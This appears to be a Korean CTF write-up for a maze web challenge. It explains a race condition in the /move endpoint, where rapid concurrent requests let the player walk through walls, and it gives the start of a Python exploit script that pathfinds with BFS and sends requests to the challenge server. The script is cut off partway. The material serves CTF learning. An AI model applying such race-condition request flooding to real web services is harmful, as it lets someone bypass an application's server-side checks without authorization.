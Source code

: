 `/move` 엔드포인트를 분석해보면, 유저로부터 이동할 방향을 전달받아 `#`(벽)이 아닌 경우에 이동한다.    
     
`@`(유저 위치)는 `writeLoc()`에 의해 지정되는데 인접한 경로에 갔을 때 주변을 이동할 수 있는지 `newCanMove` 리스트에 저장되며 `writeCanMove()`를 호출하여 데이터베이스에 업데이트한다.     
        
예를 들어, (3, 3) 위치에서 오른쪽으로 이동하려고 할 떄, (3, 4)에서 이동할 수 있는 인접한 경로들을 `newCanMove` 리스트에 저장한다. (3, 4)에 인접한 (-2, 4), (4, 4), (3, 3), (3, 5) 위치에 이동 가능 여부를 0 또는 1로 설정한다.    
   
```python
if not move or moveIdx is None or not canMove[moveIdx]:
    return redirect(f"/{mazeId}")
```
다음 이동 때, `canMove[moveIdx]`를 통해 이전에 설정한 값으로 이동 가능 여부를 판단하고 이동하게 된다. 
      
하지만, 여러 요청을 보내 `writeCanMove()` 함수가 호출되기 전에 새로운 요청에 대해 `writeLoc()` 함수가 처리되면 `#` (벽)을 지날 수 있게되어 도착 지점에 도달할 수 있다.          

## Exploit Code     
                
새로운 UUID 값을 받을 때마다 미로가 달라진다. 그렇기 때문에 BFS 알고리즘을 사용해 도착 지점 대각선에 위치한 (33, 33)까지는 자동으로 가도록 구현했다.   

```python
import requests
import copy 
from collections import deque

MAZE_SIZE = 35
visited = [[0] * MAZE_SIZE for _ in range(MAZE_SIZE)]

dx = [-1, 0, 1, 0]
dy = [ 0, 1, 0,-1]
dir = [ 'L', 'D', 'R', 'U']
curr_y, curr_x = 0, 1 

id = "fbb96d75-3d61-471f-9233-c63548c1b743"
url = f"http://the-amazing-race.chal.imaginaryctf.org"
# url = f"http://localhost:7000"

def move(path): 
    # path.append("D")
    # path.append("R")
    dr = {"L": "left", "D": "down", "R": "right", "U": "up"}
    for x in path:
        r = requests.post(
            f"{url}/move?id={id}&move={dr[x]}", 
        )
        # print(r.status_code)
        # print(r.text) 
        assert r.status_code == 200
    print("Done")
    r = requests.get(
        f"{url}/{id}"
    )
    print(r.text)

r = requests.get(
    f"{url}/{id}"
)

maze = r.text[ r.text.find("<code>")+7 : r.text.find("</code>")-1 ]
mat = [[] for _ in range(MAZE_SIZE)]
i = 0
for j in range(len(maze)):
    if maze[j] == "\n": 
        i = i + 1
        continue
```